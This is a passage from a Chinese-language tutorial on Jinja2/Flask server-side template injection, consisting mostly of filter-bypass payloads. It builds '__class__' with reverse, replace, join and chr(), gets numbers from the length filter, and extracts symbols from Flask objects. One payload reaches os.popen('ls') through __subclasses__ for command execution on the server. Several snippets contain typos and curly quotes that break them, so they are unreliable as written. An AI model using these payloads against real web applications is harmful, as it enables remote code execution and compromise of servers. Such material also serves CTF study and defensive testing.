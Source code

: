 ```
{%set a="__ssalc__"|reverse%}{{a}}
```

### replace替换

```
{{()[‘__class__’]}}等价于{%set a=”__claee__”|replace("ee","ss")%}{{()[a]}}
```

### join拼接

```
{%set a=dict(__cla=a,ss__=a)|join%}{{()[a]}}
```

```
(%set a=[‘__cla’,’ss__’]|join%}{{()[a]}}
```



## 使用python的char（）

```
{%set chr=url.for__globlas__['__builtins__'].chr%}
{{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
```

# 14.绕过数字过滤

首先介绍length过滤器，length过滤器通常用于获取数据结构（比如列表、字典或字符串）的长度

```
{% set a=’aaaaaaaaaa’|length %}{{a}}  #10

{% set a=’aaaaaaaaaa’|length*’aaa’|length %}{{a}}  #30

{% set a=’aaaaaaaaaa’|length*’aaaaaaaaaaaa’|length-’aaa’ |length %}{{a}}   #117

10个a*12个a-3个a=117个a
```

如果数字被过滤可以这样绕过：

```
{% set a=’aaaaaaaaaa’|length %}{{“”.__class__.__bases__.__subclasses__()[a].__init__.__ globals__[‘os’].popen(“ls”).read()}}
```

# 15.绕过符号过滤

利用flask内置函数和对象获取符号

```
{% set a=({}|select()|string()) %}{{a}} #获取下划线

{% set a=({}|self|string()) %} {{a}} #获取空格

{% set a=(self|string|urlencode) %}{{a}}  #获取百分号

{% set a=(app.__doc__|string) %}{{a}}
```

